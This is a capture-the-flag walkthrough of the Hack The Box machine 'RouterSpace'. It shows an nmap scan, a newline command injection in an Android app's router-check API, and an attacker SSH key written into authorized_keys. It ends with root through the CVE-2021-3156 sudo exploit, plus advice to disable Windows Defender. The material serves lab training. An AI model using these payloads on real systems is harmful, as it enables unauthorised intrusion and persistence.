








# 🗼 Router Space



Link: [https://app.hackthebox.com/machines/444](https://app.hackthebox.com/machines/444)

### Setting-up the Environment

For this machine we will need an Android Emulator and Burpsuit or OWASPZap connected with that android emulator. I will be solving this lab on my Windows machine.

1. **Android Emulator** - There are various type of android emulator present like Anbox, Android Studio, Genymotion or you can even decompile the APK and try to reverse the .js files or can use an android phone too. I will be using Genymotion for this lab. Go ahead and download [Genymotion](https://www.genymotion.com/download/), install it and also install any device with **android 6.0 above**. Ones you are done proceed with next step.
2. **Setting up the Proxy** - We need to intercept the traffic for the app, so we need to setup a proxy between Genymotion and Burp. Check this [https://support.genymotion.com/hc/en-us/articles/360012333077-How-to-use-Burp-suite-with-Genymotion-Desktop-](https://support.genymotion.com/hc/en-us/articles/360012333077-How-to-use-Burp-suite-with-Genymotion-Desktop-). Hope you are done so let's start.

### Reconnaissance

Let's start with Nmap scan `nmap -sS -A -sC -sV -p- -T4 -oN scan.txt $ip`

```
Nmap scan report for 10.129.227.47
Host is up (0.087s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-RouterSpace Packet Filtering V1
| ssh-hostkey: 
|   3072 f4:e4:c8:0a:a6:af:66:93:af:69:5a:a9:bc:75:f9:0c (RSA)
|   256 7f:05:cd:8c:42:7b:a9:4a:b2:e6:35:2c:c4:59:78:02 (ECDSA)
|_  256 2f:d7:a8:8b:be:2d:10:b0:c9:b4:29:52:a8:94:24:78 (ED25519)
80/tcp open  http
|_http-title: RouterSpace
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 200 OK
|     X-Powered-By: RouterSpace
|     X-Cdn: RouterSpace-50120
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 71
|     ETag: W/"47-R5hCRikban1UonbP+RJKEsPsFmQ"
|     Date: Sat, 04 Jun 2022 08:26:08 GMT
|     Connection: close
|     Suspicious activity detected !!! {RequestID: KK q fEam ats qqzs 3d }
|   GetRequest: 
|     HTTP/1.1 200 OK
|     X-Powered-By: RouterSpace
|     X-Cdn: RouterSpace-49987
|     Accept-Ranges: bytes
|     Cache-Control: public, max-age=0
|     Last-Modified: Mon, 22 Nov 2021 11:33:57 GMT
|     ETag: W/"652c-17d476c9285"
|     Content-Type: text/html; charset=UTF-8
|     Content-Length: 25900
|     Date: Sat, 04 Jun 2022 08:26:07 GMT
|     Connection: close
|     <!doctype html>
|     <html class="no-js" lang="zxx">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>RouterSpace</title>
|     <meta name="description" content="">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="stylesheet" href="css/bootstrap.min.css">
|     <link rel="stylesheet" href="css/owl.carousel.min.css">
|     <link rel="stylesheet" href="css/magnific-popup.css">
|     <link rel="stylesheet" href="css/font-awesome.min.css">
|     <link rel="stylesheet" href="css/themify-icons.css">
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     X-Powered-By: RouterSpace
|     X-Cdn: RouterSpace-11488
|     Allow: GET,HEAD,POST
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 13
|     ETag: W/"d-bMedpZYGrVt1nR4x+qdNZ2GqyRo"
|     Date: Sat, 04 Jun 2022 08:26:07 GMT
|     Connection: close
|     GET,HEAD,POST
|   RTSPRequest, X11Probe: 
|     HTTP/1.1 400 Bad Request
|_    Connection: close
|_http-trane-info: Problem with XML parsing of /evox/about
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port22-TCP:V=7.92%I=7%D=6/4%Time=629B171E%P=x86_64-pc-linux-gnu%r(NULL,
SF:29,"SSH-2\.0-RouterSpace\x20Packet\x20Filtering\x20V1\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port80-TCP:V=7.92%I=7%D=6/4%Time=629B171E%P=x86_64-pc-linux-gnu%r(GetRe
SF:quest,31BA,"HTTP/1\.1\x20200\x20OK\r\nX-Powered-By:\x20RouterSpace\r\nX
SF:-Cdn:\x20RouterSpace-49987\r\nAccept-Ranges:\x20bytes\r\nCache-Control:
SF:\x20public,\x20max-age=0\r\nLast-Modified:\x20Mon,\x2022\x20Nov\x202021
SF:\x2011:33:57\x20GMT\r\nETag:\x20W/\"652c-17d476c9285\"\r\nContent-Type:
SF:\x20text/html;\x20charset=UTF-8\r\nContent-Length:\x2025900\r\nDate:\x2
SF:0Sat,\x2004\x20Jun\x202022\x2008:26:07\x20GMT\r\nConnection:\x20close\r
SF:\n\r\n<!doctype\x20html>\n<html\x20class=\"no-js\"\x20lang=\"zxx\">\n<h
SF:ead>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20<met
SF:a\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\x20\x20\x
SF:20\x20<title>RouterSpace</title>\n\x20\x20\x20\x20<meta\x20name=\"descr
SF:iption\"\x20content=\"\">\n\x20\x20\x20\x20<meta\x20name=\"viewport\"\x
SF:20content=\"width=device-width,\x20initial-scale=1\">\n\n\x20\x20\x20\x
SF:20<link\x20rel=\"stylesheet\"\x20href=\"css/bootstrap\.min\.css\">\n\x2
SF:0\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"css/owl\.carousel\.m
SF:in\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"css/m
SF:agnific-popup\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20h
SF:ref=\"css/font-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"sty
SF:lesheet\"\x20href=\"css/themify-icons\.css\">\n\x20")%r(HTTPOptions,108
SF:,"HTTP/1\.1\x20200\x20OK\r\nX-Powered-By:\x20RouterSpace\r\nX-Cdn:\x20R
SF:outerSpace-11488\r\nAllow:\x20GET,HEAD,POST\r\nContent-Type:\x20text/ht
SF:ml;\x20charset=utf-8\r\nContent-Length:\x2013\r\nETag:\x20W/\"d-bMedpZY
SF:GrVt1nR4x\+qdNZ2GqyRo\"\r\nDate:\x20Sat,\x2004\x20Jun\x202022\x2008:26:
SF:07\x20GMT\r\nConnection:\x20close\r\n\r\nGET,HEAD,POST")%r(RTSPRequest,
SF:2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n"
SF:)%r(X11Probe,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20c
SF:lose\r\n\r\n")%r(FourOhFourRequest,12D,"HTTP/1\.1\x20200\x20OK\r\nX-Pow
SF:ered-By:\x20RouterSpace\r\nX-Cdn:\x20RouterSpace-50120\r\nContent-Type:
SF:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x2071\r\nETag:\x20W/
SF:\"47-R5hCRikban1UonbP\+RJKEsPsFmQ\"\r\nDate:\x20Sat,\x2004\x20Jun\x2020
SF:22\x2008:26:08\x20GMT\r\nConnection:\x20close\r\n\r\nSuspicious\x20acti
SF:vity\x20detected\x20!!!\x20{RequestID:\x20KK\x20q\x20fEam\x20ats\x20\x2
SF:0qqzs\x203d\x20\x20\x20}");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (92%), Linux 5.0 - 5.4 (91%), Linux 5.3 - 5.4 (91%), Linux 2.6.32 (91%), Linux 5.0 (90%), Linux 5.0 - 5.3 (90%), Linux 5.4 (90%), Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   87.79 ms 10.10.14.1
2   87.89 ms 10.129.227.47
```

We got 2 ports open port 22 and 80 that is `SSH` and `HTTP Server`

Let's visit the HTTP server that is `port 80`

### Port 80

Opening it in the any browser we have this static page&#x20;



No other button was working other than "Download", which will download `routerspace.apk`

No juicy information was found while looking at the source code of the webpage

Let's test that `routerspace.apk` that we got

### routerspace.apk

Install that `apk` in our genymotion the app looks like this&#x20;



It has only one button which seems to check if our router is working or not.

Let's fire up our burp and intercept the request (you have to configure the burp, check [#settinguptheenvironment](router-space.md#setting-up-the-environment))


Before sending it to the repeater tab let's add `routerspace.htb` in our hosts file so that our burp can respond.

* Windows - `c:\windows\system32\drivers\etc\hosts` edit this in notepad as administrator
* Linux - `sudo nano /etc/hosts`

add `10.129.277.47 routerpace.htb` replace with your own machine's IP



Now let's send the request to Burp's repeater `ctrl+r` and check the response


Let's try to modify the string and then check the response.

```
{
    "ip":"ip"
}
```


We can see that it is reflecting the same string with + `\n` in it.

Let's try some of the basic command injection

```
{
    "ip":"id"
}
```


Response was the same. It replied with the same sting that we provided.

Try to escape the filter as this type of response are common indication for a successful command injection vulnerability. Let's try

```
{
    "ip":"\nid"
}
```


Just add `\n` before the command\
Boom! we escaped the filter and got response which says that server is hosted on `paul` (user)

### User Flag

We have a successful command injection so let's try to get our user flag

Locating the user flag&#x20;

```
{
    "ip":"\n find /home -name user.txt"
}
```


Now let's try to cat that `user.txt`

```
{
    "ip":"\n cat /home/paul/user.txt"
}
```



We are halfway done! Let's try to get a rev shell so that we can get the root flag.

### Reverse Shell

I tried multiple payloads but not able to get any rev shell.

Let's check the .ssh directory&#x20;

```
{
"ip":"\nls -la /home/paul/.ssh"
}
```


It was empty. <mark style="background-color:purple;">So, we can generate our own public key and import them as</mark> <mark style="background-color:purple;"></mark><mark style="background-color:purple;">`authorized_keys`</mark> <mark style="background-color:purple;"></mark><mark style="background-color:purple;">in .ssh</mark>

Let's come back to our Host machine and open terminal or PowerShell (windows)

Type `ssh-keygen` to generate our own SSH key


Copy the `id_rsa.pub` and paste it in paul's machine


copy the whole content of id\_rsa.pub and&#x20;

```
POST /api/v4/monitoring/router/dev/check/deviceAccess HTTP/1.1
accept: application/json, text/plain, */*
user-agent: RouterSpaceAgent
Content-Type: application/json
Content-Length: 34
Host: routerspace.htb
Connection: close
Accept-Encoding: gzip, deflate

{"ip":"\necho 'id_rsa.pub key' >> /home/paul/.ssh/authorized_keys"}
```


replace "id\__rsa key" with your own newly generated `id`_`_rsa.pub`



Now when it's done let's connect to paul via ssh

> For Windows
>
> Use putty or open PowerShell with administrative permission
>
> `ssh -i .\id_rsa paul@ip`

> For Linux
>
> `chmod 600 id_rsa`
>
> `ssh -i id_rsa paul@ip`



We are in as paul. Now let's escalate to root&#x20;

### Privilege Escalation

I firstly prefer manual exploration for any privilege escalation

On the first hit I found the vulnerability `sudo version 1.8.31`


This was vulnerable to `CVE-2021-3156`&#x20;

Or if you want to use [Linpeas](https://github.com/carlospolop/PEASS-ng/releases/tag/20220612) you can copy via `scp`

```
scp -i id_rsa linpeas.sh paul@ip:.
```

Then `chmod +x linpeas.sh` then run it `./linpeas.sh` (On paul's machine)

Now we can use this [exploit](https://github.com/worawit/CVE-2021-3156/blob/main/exploit\_nss.py) to spawn the root shell.

Download the [exploit.py](https://github.com/worawit/CVE-2021-3156/blob/main/exploit\_nss.py) to our machine and then copy to paul's machine via `SCP`


`In windows, Windows Defender will not allow linpeas or`CVE-2021-3156 exploit to be downloaded so we have to turn the windows defender off


```
scp -i id_rsa exploit.py paul@ip:.
```

Now we have the exploit in the machine so let's run it via python3



and BOOM! we are root.

Let's get our root flag.



Pwned!

**Thanks for reading. Hope you have enjoyed and learned.**\
_<mark style="color:green;">**For any questions feel free to ping me on**</mark>_ [_<mark style="color:green;">**Twitter**</mark>_](https://twitter.com/0xs0m) _<mark style="color:green;">**or**</mark>_ [_<mark style="color:green;">**LinkedIn**</mark>_](https://www.linkedin.com/in/somchandra17/)_<mark style="color:green;">****</mark>_
